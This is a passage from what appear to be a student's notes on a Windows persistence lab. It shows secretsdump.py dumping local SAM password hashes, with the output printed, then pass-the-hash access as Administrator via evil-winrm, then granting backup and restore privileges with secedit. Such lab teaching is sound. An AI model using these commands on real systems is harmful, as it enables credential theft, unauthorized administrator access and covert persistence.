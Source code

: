With those files, we can dump the password hashes for all users using **`secretsdump.py`** or other similar tools:

```bash
🔴🟢🟡                        AttackBox
user@AttackBox$ python3.9 /opt/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL

Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

[*] Target system bootKey: 0x41325422ca00e6552bb6508215d8b426
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:1cea1d7e8899f69e89088c4cb4bbdaa3:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:9657e898170eb98b25861ef9cafe5bd6:::
thmuser1:1011:aad3b435b51404eeaad3b435b51404ee:e41fd391af74400faa4ff75868c93cce:::
[*] Cleaning up...
```

And finally, perform Pass-the-Hash to connect to the victim machine with Administrator privileges:

```bash
🔴🟢🟡                        AttackBox
user@AttackBox$ evil-winrm -i MACHINE_IP -u Administrator -H 1cea1d7e8899f69e89088c4cb4bbdaa3
```

🏁 Using the Administrator console gained through the thmuser1, execute C:\flags\flag1.exe to retrieve your flag 🏴‍☠️.


## Special Privileges and Security Descriptors

A similar result to adding a user to the Backup Operators group can be achieved without modifying any group membership. Special groups are only special because the operating system assigns them specific privileges by default. **`Privileges`** are simply the capacity to do a task on the system itself. They include simple things like having the capabilities to shut down the server up to very privileged operations like being able to take ownership of any file on the system. A complete list of available privileges can be found [here](https://docs.microsoft.com/en-us/windows/win32/secauthz/privilege-constants) for reference.

In the case of the Backup Operators group, it has the following two privileges assigned by default:

* **SeBackupPrivilege:** The user can read any file in the system, ignoring any DACL in place.
* **SeRestorePrivilege:** The user can write any file in the system, ignoring any DACL in place.

We can assign such privileges to any user, independent of their group memberships. To do so, we can use the **`secedit`** command. First, we will export the current configuration to a temporary file:

```bash
secedit /export /cfg config.inf
```

We open the file and add our user to the lines in the configuration regarding the **`SeBackupPrivilege`** and **`SeRestorePrivilege`**:
|![image](https://github.com/user-attachments/assets/b31fae58-7809-458d-ad93-627981f6da5c)|
|---|
|config.inf contents|
